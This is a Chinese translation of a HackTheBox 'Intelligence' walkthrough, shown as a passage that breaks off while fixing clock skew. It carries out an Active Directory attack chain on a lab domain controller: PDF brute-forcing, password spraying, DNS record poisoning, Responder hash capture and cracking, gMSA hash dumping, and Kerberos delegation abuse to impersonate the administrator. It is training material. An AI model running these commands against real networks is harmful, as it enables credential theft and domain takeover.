





# 黑客盒子的情报

> 原文：<https://infosecwriteups.com/intelligence-from-hackthebox-5315c1b89ebf?source=collection_archive---------1----------------------->

展示完成盒子所需的所有工具和技术的详细演练。

# 机器信息


黑客盒子智能

智能是 HackTheBox 上的一台中型机器。这是一个托管 DC 和许多其他服务的 Windows 盒子。我们的起点是一个网站，通过一些蛮力，我们找到了许多 pdf。隐藏在其中的是我们用来访问 SMB 共享的凭据。从那里我们找到一个脚本，它将我们指向一个预定的任务，我们通过将 DNS 指向我们的攻击机器来利用这个任务。使用 Responder 我们获取用户的哈希，这很容易被破解。使用这些凭证，我们获取一个服务帐户散列，并据此创建一个服务票来模拟管理员。这听起来很简单，但是这个花费了我太多的时间！

需要的技能是 web 和 OS 枚举，以及对针对 Active Directory 的基本攻击方法的理解。学到的技能很多，包括使用 CrackMapExec、SMBMap、LDAP 搜索、Responder、Impacket 脚本和 Kerberos 票证创建。

[](https://www.hackthebox.eu/home/machines/profile/357) [## 侵入测试实验室

### 登录 Hack The Box 平台，让您的笔测试和网络安全技能更上一层楼！

www.hackthebox.eu](https://www.hackthebox.eu/home/machines/profile/357) 

# 初步侦察

像往常一样，让我们从 Nmap 开始:



Nmap 扫描输出

我们可以看到机器名称，所以让我们添加它:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# echo "10.10.10.248 intelligence.htb" >> /etc/hosts
```

因此，这是一个 Windows 盒子，是一个 DC，同时运行许多其他服务。我们先来看看 80 端口的网站:


黑客盒子情报网站

网站上的内容不多，但我们确实找到了两个文档的链接。让我们抓住他们:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# wget http://intelligence.htb/documents/2020-12-15-upload.pdf
--2021-10-05 22:03:38--  [http://intelligence.htb/documents/2020-12-15-upload.pdf](http://intelligence.htb/documents/2020-12-15-upload.pdf)Resolving intelligence.htb (intelligence.htb)... 10.10.10.248
Connecting to intelligence.htb (intelligence.htb)|10.10.10.248|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 27242 (27K) [application/pdf]
Saving to: ‘2020-12-15-upload.pdf’
2020-12-15-upload.pdf        100%[================>]  26.60K  --.-KB/s    in 0.05s
2021-10-05 22:03:38 (541 KB/s) - ‘2020-12-15-upload.pdf’ saved [27242/27242]

┌──(root💀kali)-[~/htb/intelligence]
└─# wget http://intelligence.htb/documents/2020-01-01-upload.pdf
--2021-10-05 22:04:16--  [http://intelligence.htb/documents/2020-01-01-upload.pdf](http://intelligence.htb/documents/2020-01-01-upload.pdf)Resolving intelligence.htb (intelligence.htb)... 10.10.10.248
Connecting to intelligence.htb (intelligence.htb)|10.10.10.248|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 26835 (26K) [application/pdf]
Saving to: ‘2020-01-01-upload.pdf’
2020-01-01-upload.pdf        100%[=================>]  26.21K  --.-KB/s    in 0.03s
2021-10-05 22:04:16 (1.02 MB/s) - ‘2020-01-01-upload.pdf’ saved [26835/26835]
```

# EXIF 数据提取

这些 pdf 里面没有什么有趣的东西，只有 lorem ipsum filler。让我们看看 EXIF 的数据，如果需要，首先安装该工具:



Exif 工具下载

现在看看使用它的文件:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# exiftool 2020-01-01-upload.pdfExifTool Version Number         : 12.31
File Name                       : 2020-01-01-upload.pdf
Directory                       : .
File Size                       : 26 KiB
File Modification Date/Time     : 2021:04:01 18:00:00+01:00
File Access Date/Time           : 2021:10:05 22:04:16+01:00
File Inode Change Date/Time     : 2021:10:05 22:04:16+01:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.5
Linearized                      : No
Page Count                      : 1
Creator                         : William.Lee

┌──(root💀kali)-[~/htb/intelligence]
└─# exiftool 2020-12-15-upload.pdf ExifTool Version Number         : 12.31
File Name                       : 2020-12-15-upload.pdf
Directory                       : .
File Size                       : 27 KiB
File Modification Date/Time     : 2021:04:01 18:00:00+01:00
File Access Date/Time           : 2021:10:05 22:03:38+01:00
File Inode Change Date/Time     : 2021:10:05 22:03:38+01:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.5
Linearized                      : No
Page Count                      : 1
Creator                         : Jose.Williams
```

# 正在生成单词表

我们有两个以日期命名的文件，一个在 2020 年初，另一个在年底。我们也有看起来像两个用户名，威廉。下一个合乎逻辑的步骤是看看我们是否能强力找到其他文件。命名格式很容易创建一个列表，我搜索并找到了[这个我稍微修改过的](https://www.w3resource.com/python-exercises/date-time-exercise/python-date-time-exercise-50.php) Python 脚本:

```
from datetime import timedelta, date

def daterange(date1, date2):
    for n in range(int ((date2 - date1).days)+1):
        yield date1 + timedelta(n)

start_dt = date(2020, 1, 1)
end_dt = date(2020, 12, 31)
for dt in daterange(start_dt, end_dt):
    print(dt.strftime("%Y-%m-%d-upload.pdf"))
```

这为我创建了一个潜在文件名列表，2020 年的每一天都有一个。我可以将它们保存到一个名为 dates.txt 的文件中，并与 feroxbuster 一起使用:



Ferroxbuster 文档扫描

我们找到了 81 份文件。该列表输出到名为 results.txt 的文件中:



找到文件的结果

我们可以使用 awk 来解决这个问题:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# cat results.txt | awk '{ print $5 }'

http://intelligence.htb/documents/2020-01-20-upload.pdf
http://intelligence.htb/documents/2020-01-23-upload.pdf
http://intelligence.htb/documents/2020-02-17-upload.pdf
http://intelligence.htb/documents/2020-01-01-upload.pdf
http://intelligence.htb/documents/2020-01-02-upload.pdf
http://intelligence.htb/documents/2020-02-28-upload.pdf
```

# 批量文件下载

看起来好多了，现在我们可以通过管道把它传给 wget 来下载所有的文件:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# cat results.txt | awk '{ print $5 }' | xargs wget
--2021-10-05 22:45:24--  [http://intelligence.htb/documents/2020-01-20-upload.pdf](http://intelligence.htb/documents/2020-01-20-upload.pdf)Resolving intelligence.htb (intelligence.htb)... 10.10.10.248
Connecting to intelligence.htb (intelligence.htb)|10.10.10.248|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 11632 (11K) [application/pdf]
Saving to: ‘2020-01-20-upload.pdf’
2020-01-20-upload.pdf      100%[=================>]  11.36K  --.-KB/s    in 0.004s
2021-10-05 22:45:24 (2.71 MB/s) - ‘2020-01-20-upload.pdf’ saved [11632/11632]

--2021-10-05 22:45:24--  http://intelligence.htb/documents/2020-01-23-upload.pdf
Reusing existing connection to intelligence.htb:80.
HTTP request sent, awaiting response... 200 OK
Length: 11557 (11K) [application/pdf]
Saving to: ‘2020-01-23-upload.pdf’
2020-01-23-upload.pdf      100%[=================>]  11.29K  --.-KB/s    in 0.001s
2021-10-05 22:45:24 (8.10 MB/s) - ‘2020-01-23-upload.pdf’ saved [11557/11557]
<SNIP>
```

我们有所有的文件，但是太多了，无法手动查看。在之前的 exiftool 中，我们看到 Creator 字段中有一个用户名，让我们来看看使用字符串下载的文件:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# strings *.pdf | grep Creator 

/Creator (TeX)
/Creator (William.Lee)
/Creator (TeX)
/Creator (Scott.Scott)
/Creator (TeX)
<SNIP>
```

我们可以用字符串提取，让我们创建一个唯一用户名的列表并传递给一个文件:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# strings *.pdf | grep Creator | grep -v TeX | awk '{print $2}' | cut -d '(' -f 2 | cut -d ')' -f 1 | sort | uniqAnita.Roberts
Brian.Baker
Brian.Morris
Daniel.Shelton
<SNIP>
Tiffany.Molina
Travis.Evans
Veronica.Patel
William.Lee

┌──(root💀kali)-[~/htb/intelligence]
└─# strings *.pdf | grep Creator | grep -v TeX | awk '{print $2}' | cut -d '(' -f 2 | cut -d ')' -f 1 | sort | uniq > users.txt
```

# 数据析取

接下来，我们要搜索所有这些 PDF 文件的内容，以节省时间。我找到了[这个](https://www.linuxuprising.com/2019/05/how-to-convert-pdf-to-text-on-linux-gui.html)转换器，安装好之后，让我们把所有的 PDF 文件转换成文本文件:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# for file in *.pdf; do pdftotext -layout "$file"; done
```

现在，我们为每个 PDF 文档都准备了一个文本文件，我们可以一次搜索所有文档，查找一些明显的信息，如密码:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# grep -rl "password" *.txt2020-06-04-upload.txt

┌──(root💀kali)-[~/htb/intelligence]
└─# cat 2020-06-04-upload.txtNew Account Guide
Welcome to Intelligence Corp!
Please login using your username and the default password of:
<HIDDEN>
After logging in please change your password as soon as possible.
```

我们有所发现并不奇怪！

# CrackMapExec

现在我们有了一个用户名列表和一个可能的密码。让我们用 crackmapexec 来做一个密码喷:



CrackMapExec 输出

# SMBMap

我们发现蒂芙尼忘记更改密码了！我们可以使用 smbmap 来枚举 SMB 共享:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# smbmap -u Tiffany.Molina -p <HIDDEN> -H intelligence.htb[+] IP: intelligence.htb:445    Name: unknown                                           
        Disk                      Permissions     Comment
        ----                      -----------     -------
        ADMIN$                    NO ACCESS       Remote Admin
        C$                        NO ACCESS       Default share
        IPC$                      READ ONLY       Remote IPC
        IT                        READ ONLY
        NETLOGON                  READ ONLY       Logon server share 
        SYSVOL                    READ ONLY       Logon server share 
        Users                     READ ONLY
```

我们对用户有读取权限，有一个叫它。我们可以让 smbmap 列出我们可以访问的所有内容，而不是手动查看这些共享:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# smbmap -u Tiffany.Molina -p <HIDDEN> -H intelligence.htb -R[+] IP: intelligence.htb:445    Name: unknown
        Disk                      Permissions      Comment
        ----                      -----------      -------
        ADMIN$                    NO ACCESS        Remote Admin
        C$                        NO ACCESS        Default share
        IPC$                      READ ONLY        Remote IPC
        <SNIP>
        IT                        READ ONLY
        .\IT\*
        fr--r--r-- 1046 Mon Apr 19 01:50:58 2021   downdetector.ps1
        <SNIP>
        Users                     READ ONLY
        .\Users\*
        dr--r--r--   0 Mon Apr 19 01:18:39 2021    Administrator
        dr--r--r--   0 Mon Apr 19 04:16:30 2021    All Users
        dw--w--w--   0 Mon Apr 19 03:17:40 2021    Default
        dr--r--r--   0 Mon Apr 19 04:16:30 2021    Default User
        fr--r--r-- 174 Mon Apr 19 04:15:17 2021    desktop.ini
        dw--w--w--   0 Mon Apr 19 01:18:39 2021    Public
        dr--r--r--   0 Mon Apr 19 02:20:26 2021    Ted.Graves
        dr--r--r--   0 Mon Apr 19 01:51:46 2021    Tiffany.Molina
        <SNIP>
        .\Users\Tiffany.Molina\Desktop\*
        fw--w--w--  34 Thu Oct  7 12:55:49 2021    user.txt
```

超过 260 个文件被返回，所以我们节省了大量时间转储列表，而不是手动查找。我去掉了大部分，留下了三个有趣的东西:

```
IT Share has a PowerShell script called downdetector.ps1
User folder has another user called Ted.Graves
User flag is on Tiffany's desktop
```

# 用户标志

在查看 PowerShell 脚本之前，让我们先获取标志:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# smbclient //intelligence.htb/Users -U 'Tiffany.Molina'Enter WORKGROUP\Tiffany.Molina's password: 
Try "help" to get a list of possible commands.
smb: \> cd Tiffany.Molina\Desktop\
smb: \Tiffany.Molina\Desktop\> get user.txt
getting file \Tiffany.Molina\Desktop\user.txt of size 34 as user.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)

┌──(root💀kali)-[~/htb/intelligence]
└─# cat user.txt 
<HIDDEN>
```

# PowerShell 战利品

现在让我们看看 PowerShell 脚本:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# smbclient  //intelligence.htb/IT -U 'Tiffany.Molina'
Enter WORKGROUP\Tiffany.Molina's password: 
Try "help" to get a list of possible commands.
smb: \> get downdetector.ps1
getting file \downdetector.ps1 of size 1046 as downdetector.ps1 (9.0 KiloBytes/sec) (average 9.0 KiloBytes/sec)┌──(root💀kali)-[~/htb/intelligence]
└─# cat downdetector.ps1# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
```

我们有一个简单的脚本，其中有一个循环来从 AD 中检索所有名称类似 web*的记录。然后，它使用带有名称列表的 Invoke-WebRequest 并尝试进行身份验证。因此，我们知道需要添加一个指向我们的 DNS 记录，然后我们可以捕获该身份验证请求。

# DNS 中毒

首先，我们可以使用 Dirk Janm 的 [krbrelayx](https://github.com/dirkjanm/krbrelayx) 工具包来添加我们的记录:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# git clone [https://github.com/dirkjanm/krbrelayx.git](https://github.com/dirkjanm/krbrelayx.git)Cloning into 'krbrelayx'...
remote: Enumerating objects: 98, done.
remote: Total 98 (delta 0), reused 0 (delta 0), pack-reused 98
Receiving objects: 100% (98/98), 65.76 KiB | 1.11 MiB/s, done.
Resolving deltas: 100% (48/48), done.

┌──(root💀kali)-[~/htb/intelligence]
└─# cd krbrelayx

┌──(root💀kali)-[~/htb/intelligence/krbrelayx]
└─# python3 dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p '<HIDDEN>' -a add -r 'webpencer.intelligence.htb' -d 10.10.14.251 10.10.10.248[-] Connecting to host...
[-] Binding to host
[+] Bind OK
/root/htb/intelligence/krbrelayx/dnstool.py:241: DeprecationWarning: please use dns.resolver.Resolver.resolve() instead
  res = dnsresolver.query(zone, 'SOA')
[-] Adding new record
[+] LDAP operation completed successfully
```

上面我们已经使用 dnstool 脚本添加了一个名为 webpencer 的记录，我们将该条目指向我们的 Kali IP 10 . 10 . 14 . 251。

# 回答者

现在，我们启动 responder，等待五分钟时间，让脚本联系我们并尝试进行身份验证:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# responder -I tun0 -A
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|
           NBT-NS, LLMNR & MDNS Responder 3.0.6.0
  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[+] Poisoners:
    <SNIP>
[+] Servers:
    <SNIP>
[+] HTTP Options:
    <SNIP>
[+] Poisoning Options:
    Analyze Mode               [ON]
    <SNIP>
[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.251]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']
[+] Current Session Variables:
    Responder Machine Name     [WIN-ZQMKCOX922L]
    Responder Domain Name      [45TT.LOCAL]
    Responder DCE-RPC Port     [49138]

[i] Responder is in analyze mode. No NBT-NS, LLMNR, MDNS requests will be poisoned.

[+] Listening for events...                          
[HTTP] NTLMv2 Client   : 10.10.10.248
[HTTP] NTLMv2 Username : intelligence\Ted.Graves
[HTTP] NTLMv2 Hash     : Ted.Graves::intelligence:98592689b95ecf6e:435A2306687E740FF0DDFA17CAF82E4B<SNIP>9003E0048005400540050002F00770065006200700065006E006300650072002E0069006E00740065006C006C006900670065006E00630065002E006800740062000000000000000000
```

# 哈希破解

几分钟后，我们抓住了泰德。格雷夫斯密码散列。我们可以使用 JohnTheRipper 来尝试破解它:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# nth --file hash.txt 

Ted.Graves::intelligence:98592689b95ecf6e:435A2306687E740FF0DDFA17CAF82E4B<SNIP>9003E0048005400540050002F00770065006200700065006E006300650072002E0069006E00740065006C006C006900670065006E00630065002E006800740062000000000000000000

Most Likely 
NetNTLMv2, HC: 5600 JtR: netntlmv2

┌──(root💀kali)-[~/htb/intelligence]
└─# john hash.txt -format=netntlmv2 -w=/usr/share/wordlists/rockyou.txtUsing default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<HIDDEN>        (Ted.Graves)
1g 0:00:00:05 DONE (2021-10-07 22:19) 0.1941g/s 2100Kp/s 2100Kc/s 2100KC/s Mrz.deltasigma..Morgant1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```

# 服务帐户

只用了几秒钟就破解了。然而，我遇到了一点困难，因为这些凭证并没有在我认为它们会起作用的地方起作用。由于在 SMB 上没有前进的道路，我回到下载的 pdf 文件上，搜索 Ted:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# grep -rl "Ted" *.txt | cat $file
2020-12-30-upload.txt

┌──(root💀kali)-[~/htb/intelligence]
└─# cat 2020-12-30-upload.txtInternal IT Update
There has recently been some outages on our web servers. Ted has gotten a
script in place to help notify us if this happens again.
Also, after discussion following our recent security audit we are in the process
of locking down our service accounts.
```

# LDAP 转储

有趣的是，这个文件提到了安全审计，他们正在锁定服务帐户。稍微搜索一下，就从 hacktricks 中找到了[这个](https://book.hacktricks.xyz/pentesting/pentesting-ldap)。我有 Ted 的有效证书，所以查看了 [ldapsearch](https://github.com/dirkjanm/ldapdomaindump) ，这是 Dirk Janm 的另一个工具:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# ldapdomaindump 10.10.10.248 -u 'intelligence\Ted.Graves' -p '<HIDDEN>'[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished

┌──(root💀kali)-[~/htb/intelligence]
└─# ldd2pretty --directory .

    +--------------------------------------+
    | Getting Domain Sid For               |
    +--------------------------------------+

[+] Domain Name: intelligence
Domain Sid: S-1-5-21-4210132550-3389855604-3437519686

    +-----------------------------------------+
    | Password Policy Information             |
    +-----------------------------------------+

[+] Password Info for Domain: INTELLIGENCE
        [+] Minimum password length:  5
        [+] Password history length: 0
        [+] Password Complexity Flags: 000000

                [+] Domain Refuse Password Change: 0
                [+] Domain Password Store Cleartext: 0
                [+] Domain Password Lockout Admins: 0
                [+] Domain Password No Clear Change: 0
                [+] Domain Password No Anon Change: 0
                [+] Domain Password Complex: 0

        [+] Maximum password age: 999999999 days, 23:59:59.999999
        [+] Minimum password age: 0:00:00
        [+] Reset Account Lockout Counter: 0:00:00
        [+] Account Lockout Threshold: 0
        [+] Forced Log off Time: Not Set

    +------------------------+
    | Users Infos            |
    +------------------------+

Account: INTELLIGENCE\Ted.Graves  Name: Ted Graves
Account: INTELLIGENCE\Laura.Lee   Name: Laura Lee
Account: INTELLIGENCE\Jason.Patterson   Name: Jason Patterson
Account: INTELLIGENCE\Jeremy.Mora       Name: Jeremy Mora
Account: INTELLIGENCE\James.Curbow      Name: James Curbow
<SNIP>
```

# 受约束的委托

我已经从 AD 转储了我们可以访问的所有内容，因此输出会持续很长时间。这是我们感兴趣的部分:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# grep "DELEGATION" *.grep

domain_computers.grep:svc_int   svc_int$  svc_int.intelligence.htb    WORKSTATION_ACCOUNT, TRUSTED_TO_AUTH_FOR_DELEGATIONdomain_computers.grep:DC        DC$       dc.intelligence.htb       SERVER_TRUST_ACCOUNT, TRUSTED_FOR_DELEGATION
```

# Pywerview

更多搜索找到了[这篇](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation)有用的文章。它提到了关于委托信任的计算机对象，所以我使用 Python 版本的 PowerView 从[这里](https://github.com/the-useless-one/pywerview)获取了更多详细信息:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# git clone [https://github.com/the-useless-one/pywerview.git](https://github.com/the-useless-one/pywerview.git)Cloning into 'pywerview'...
remote: Enumerating objects: 1731, done.
remote: Counting objects: 100% (571/571), done.
remote: Compressing objects: 100% (323/323), done.
remote: Total 1731 (delta 425), reused 385 (delta 247), pack-reused 1160
Receiving objects: 100% (1731/1731), 383.68 KiB | 1.76 MiB/s, done.
Resolving deltas: 100% (1235/1235), done.

┌──(root💀kali)-[~/htb/intelligence/pywerview]
└─# python3 ./pywerview.py get-netcomputer -u Ted.Graves -p <HIDDEN> -w intelligence.htb --computername svc_int.intelligence.htb -t 10.10.10.248 --full-data
```

从冗长的输出来看，这是关键部分:

```
accountexpires:                 never
distinguishedname:              CN=svc_int,CN=Managed Service Accounts,DC=intelligence,DC=htb
dnshostname:                    svc_int.intelligence.htb
msds-allowedtodelegateto:       WWW/dc.intelligence.htb
name:                           svc_int
objectcategory:                 CN=ms-DS-Group-Managed-Service-Account,CN=Schema,CN=Configuration,DC=intelligence,DC=htb
objectclass:                    msDS-GroupManagedServiceAccount
samaccountname:                 svc_int$
useraccountcontrol:             ['WORKSTATION_TRUST_ACCOUNT', 'TRUSTED_TO_AUTH_FOR_DELEGATION']
```

# gMSADumper

我们有一个受信任的组管理服务帐户，可委托给 WWW。有了 Ted 的访问权限，我们就可以使用[GMS dumper](https://github.com/micahvandeusen/gMSADumper)获取那个账户的散列值:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# wget [https://raw.githubusercontent.com/micahvandeusen/gMSADumper/main/gMSADumper.py](https://raw.githubusercontent.com/micahvandeusen/gMSADumper/main/gMSADumper.py)--2021-10-08 15:12:07--  https://raw.githubusercontent.com/micahvandeusen/gMSADumper/main/gMSADumper.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.110.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4609 (4.5K) [text/plain]
Saving to: ‘gMSADumper.py’
gMSADumper.py      100%[==================================================================>]   4.50K  --.-KB/s    in 0.001s  
2021-10-08 15:12:07 (3.61 MB/s) - ‘gMSADumper.py’ saved [4609/4609]

┌──(root💀kali)-[~/htb/intelligence]
└─# python3 gMSADumper.py -u Ted.Graves -p <HIDDEN> -d intelligence.htbUsers or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::d170ae<HIDDEN>e12dd621
```

# 打包服务票

利用服务帐户的散列，我们可以使用 [Impacket](https://github.com/SecureAuthCorp/impacket) getST.py 脚本来请求服务票证，同时模拟管理员:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# python3 /usr/share/doc/python3-impacket/examples/getST.py intelligence.htb/svc_int$ -spn WWW/dc.intelligence.htb -hashes :d170ae<HIDDEN>e12dd621 -impersonate administratorImpacket v0.9.22 - Copyright 2020 SecureAuth Corporation
[*] Getting TGT for user
Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

# 时间偏差修正

我的虚拟机的时钟必须在域控制器的几分钟之内，所以首先我们需要同步它们。这太痛苦了！

关闭虚拟机，然后从主机，对我来说是 Windows 10 你需要禁用时间同步。打开 PowerShell 并键入以下内容:

```
